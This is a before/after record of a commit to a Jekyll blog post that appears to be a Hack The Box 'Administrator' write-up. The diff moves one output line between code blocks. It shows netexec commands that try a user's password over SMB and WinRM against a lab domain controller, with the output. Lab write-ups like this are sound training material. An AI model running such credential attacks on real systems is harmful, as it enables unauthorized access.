

Before and after one commit to iwotylus/iwotylus.github.io, a Jekyll site: the page built from _posts/2025-03-19-Administrator.md, in a window 1280 px wide. Shown: the part 4495-6400 px from the top of the page at 82% size, without its empty margins (317-962 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

```diff
--- a/_posts/2025-03-19-Administrator.md
+++ b/_posts/2025-03-19-Administrator.md
@@ -267,10 +267,10 @@
 {% highlight shell %}
 exegol-liemek administrator # netexec smb 10.10.11.42 -u benjamin -p "helloItsNotm3e(123)"
 SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
+SMB         10.10.11.42     445    DC               [+] administrator.htb\benjamin:helloItsNotm3e(123)
 {% endhighlight %}
 
 {% highlight shell %}
-SMB         10.10.11.42     445    DC               [+] administrator.htb\benjamin:helloItsNotm3e(123)
 exegol-liemek administrator # netexec winrm 10.10.11.42 -u benjamin -p "helloItsNotm3e(123)"
 WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
 WINRM       10.10.11.42     5985   DC               [-] administrator.htb\benjamin:helloItsNotm3e(123)
```
